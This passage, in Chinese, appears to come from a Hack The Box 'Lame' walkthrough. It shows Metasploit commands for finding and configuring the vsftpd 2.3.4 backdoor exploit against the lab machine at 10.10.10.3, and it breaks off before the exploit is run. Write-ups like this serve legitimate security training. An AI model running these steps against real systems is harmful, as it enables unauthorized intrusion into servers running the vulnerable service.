 ```
search vsftpd 2.3.4
```

我们可以看到有几种不同的利用方式，但我们感兴趣的是第 4 种

```
exploit/unix/ftp/vsftpd_234_backdoor
```

![Screenshot-2019-08-02-at-21.39.05](img/15e91b5326d8d0ce2ab72d42bc9d8330.png)

我使用以下命令来利用漏洞

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

这将启动漏洞利用。我使用这个命令来显示可用的选项

```
show options
```

您可以看到远程主机(RHOSTS)尚未设置。我将设置远程主机和目标，因为运行该漏洞需要这两条信息

![Screenshot-2019-08-02-at-21.43.41](img/ae226d8d68dd3407542f49421862cb6d.png)

我使用以下命令来设置使用 HTB Lame box 的 IP 地址的远程主机

```
set RHOSTS 10.10.10.3
```
